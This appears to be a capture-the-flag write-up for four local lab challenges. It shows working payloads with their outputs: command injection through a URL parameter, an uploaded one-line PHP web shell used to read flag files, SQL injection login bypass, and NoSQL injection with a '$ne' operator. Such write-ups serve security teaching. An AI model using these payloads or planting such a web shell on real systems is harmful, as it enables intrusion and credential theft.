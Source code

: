 ## User 1

The site on http://localhost:81 provides a button that returns the current date\
http://localhost:81/index?exec=date
\
```The current date is: 2024-06-13 11:04:33```

We see a site that is vulnerable to code injection. In this example, a script uses the exec() function to execute the date command. However, the host is dynamic (passed via an HTTP GET request):

http://localhost:81/index?exec=whoami\
```root```

http://localhost:81/index?exec=ls\
```Dockerfile app.py flag.txt templates```

http://localhost:81/index?exec=cat%20flag.txt\
Password for User 2: ```CWA{C0MM4ND_1NJ3CT10N_3XP10ITED}``` 

## User 2
The site provides a file upload form.\
We se that we can upload text files, let’s try to upload a payload script and start the attack. Since we know we are running php, we can use a php "microshell" which allows us to simply add commands we want to run on the webserver at the end of a URL.

We make a php file (```exploit.php```) and write the following code in it \
```<?php system($_REQUEST['cmd']); ?>```

upload the file and see that:\
```You can access it at http://localhost:82/uploads/666adc26283199.74726988.php ```

http://localhost:82/uploads/666adc26283199.74726988.php?cmd=pwd\
```/var/www/html/uploads``` 

http://localhost:82/uploads/666adc26283199.74726988.php?cmd=cd%20..%20;%20ls\
```flag.txt index.php uploads```

http://localhost:82/uploads/666adc26283199.74726988.php?cmd=cat%20../flag.txt\

Password for User 3:```CWA{F1L3_UPLO4D_TURN5_T0_RC3}```

## User 3
The site provides a login form.\
We try to submit different kind of data. For example, consider if the input was ```'```\
The application would crash because the resulting SQL query is incorrect.\
Thats what happens in our case, we get ```Internal Server Error.```

With the knowledge that a single quote causes an error in the application we can expand a little more on SQL Injection.
What if our input was ```' OR 1=1```

We try:\
username: ```whatever' or '1'='1```\
password: ```whatever' or '1'='1```\
the result is: ```Welcome, codwer:Welc0m3T0Codw3r!```

We see that there is the user ```codwer```, maybe there is also user ```admin```:\
username: ```admin' or '1'='1```\
password: ```asdasdasdasd```\
the result is: ```Welcome, admin:CWA{SQL_1NJ3C710N_3XP10I7ED}!```\
Password for User 4: ```CWA{SQL_1NJ3C710N_3XP10I7ED}```

## User 4
The site provides a login form. We try to bypass it with a NoSQL injection

We try:\
username:  ```{"$ne": null}```\
password: ```{"$ne": null}```\
The result is: ```{"Id":"666af06fc270fa77189fa36f","Username":"codwer","Password":"Welc0m3T0Codw3r"}```\

Then we try:\
username: ```admin```\
password: ```{"$ne": null}```\
The result is: ```{"Id":"666af06fc270fa77189fa370","Username":"admin","Password":"CWA{N0SQL_INJ3CT10N_15_4LM05T_TH3_S4M3}"}```\

Password for root: ```CWA{N0SQL_INJ3CT10N_15_4LM05T_TH3_S4M3}```